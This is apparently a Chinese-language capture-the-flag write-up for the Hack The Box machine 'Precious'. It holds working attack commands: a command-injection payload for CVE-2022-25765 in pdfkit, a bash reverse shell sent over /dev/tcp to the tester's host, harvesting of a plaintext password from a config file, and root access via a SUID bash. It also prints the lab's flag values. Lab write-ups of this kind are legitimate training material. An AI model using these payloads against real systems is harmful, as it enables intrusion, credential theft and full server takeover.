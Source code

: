 ### 一、信息收集
```shell
    nmap -A 10.10.11.189
    # 经探测，存在22、80端口
    # 进行虚拟主机和目录探测都没有有用信息
    # 因此使用IP进行访问
```
> IP会自动跳转到http://precious.htb/，所以需要在/etc/hosts文件设置映射

web页面如下
<img decoding="async" src="./images/precious.png" >

### 二、确定漏洞
1. 启动本地web服务
> python3 -m http.server 80   

2. 利用本地服务的url作为payload
> 生成PDF文件并下载，6uzp9y651e9fyzuydn2q5384lo10uj1o.pdf

3. 查找文件信息
```shell
# 命令
exiftool 6uzp9y651e9fyzuydn2q5384lo10uj1o.pdf

# 结果
ExifTool Version Number         : 12.49
File Name                       : 6uzp9y651e9fyzuydn2q5384lo10uj1o.pdf
Directory                       : .
File Size                       : 24 kB
File Modification Date/Time     : 2022:12:10 11:05:16+08:00
File Access Date/Time           : 2022:12:10 11:05:31+08:00
File Inode Change Date/Time     : 2022:12:10 11:05:31+08:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
``` 
> 出现敏感信息pdfkit v0.8.6

4. 经过网络搜索，发现存在相关漏洞编号：CVE-2022-25765,按照其提供的方案进行攻击
- 使用PAYLOAD:http://10.10.16.7/?name=%20`curl 10.10.16.7`
<img decoding="async" src="./images/precious1.png" >
> 本地有接收到访问请求，因此该漏洞可以利用

-  反弹shell
```shell
# 启动监听
nc -lvnp  4444

# 反弹到本地
http://10.10.16.7/?name=%20`bash -c 'exec bash -i &>/dev/tcp/10.10.16.7/4444 <&1'`
### 至此，已经获取webshell
```

5.  查找敏感文件
- 利用命令`cat /etc/passwd`发现存在用户henry
- 并在`/home/ruby/.bundle`目录发现配置文件存在henry用户的密码
-  使用 `ssh` 进行访问，成功登录并在家目录发现flag
>  user.txt 4c7b12d577742d2431305d10ab43d529

6. 提权
```shell
# 查找具有SUID的可执行文件
find . -perm /4000

# 可以利用的文件
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/bash
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/fusermount

# 进行提权
/usr/bin/bash -p
```
> 从`/root`目录获取flag:root.txt 4173d42c48656e94571eca2e8c506972




